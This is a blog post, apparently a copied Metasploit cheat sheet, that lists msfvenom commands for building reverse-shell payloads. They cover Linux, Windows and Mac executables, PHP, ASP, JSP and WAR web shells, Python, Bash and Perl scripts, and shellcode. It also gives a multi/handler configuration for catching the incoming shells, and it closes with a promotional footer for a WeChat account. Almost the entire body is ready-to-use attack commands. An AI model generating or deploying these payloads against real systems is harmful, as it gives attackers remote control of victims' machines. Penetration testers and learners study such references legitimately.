 ```yaml
---
layout: post
category: binghe-code-hack
title: Msfvenom生成各类Payload命令
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Msfvenom生成各类Payload命令
lock: need
---
```


# Msfvenom生成各类Payload命令

Often one of the most useful (and to the beginner underrated)  abilities of Metasploit is the msfpayload module. Multiple payloads can  be created with this module and it helps something that can give you a  shell in almost any situation. For each of these payloads you can go  into msfconsole and select exploit/multi/handler. Run ‘set payload’ for  the relevant payload used and configure all necessary options (LHOST,  LPORT, etc). Execute and wait for the payload to be run. For the  examples below it’s pretty self explanatory but LHOST should be filled  in with your IP address (LAN IP if attacking within the network, WAN IP  if attacking across the internet), and LPORT should be the port you wish to be connected back on.

List payloads

```
msfvenom -l
```

Binaries

**Linux** 

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

**Windows** 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

**Mac** 

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

Web Payloads

**PHP** 

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php



cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**ASP** 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

**JSP** 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

**WAR** 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

Scripting Payloads

**Python** 

```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

**Bash** 

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

**Perl** 

```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

Shellcode

For all shellcode see ‘msfvenom –help-formats’ for information as to  valid parameters. Msfvenom will output code that is able to be cut and  pasted in this language for your exploits.

**Linux Based Shellcode** 

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Windows Based Shellcode** 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Mac Based Shellcode** 

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Handlers

Metasploit handlers can be great at quickly setting up Metasploit to  be in a position to receive your incoming shells. Handlers should be in  the following format.

```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
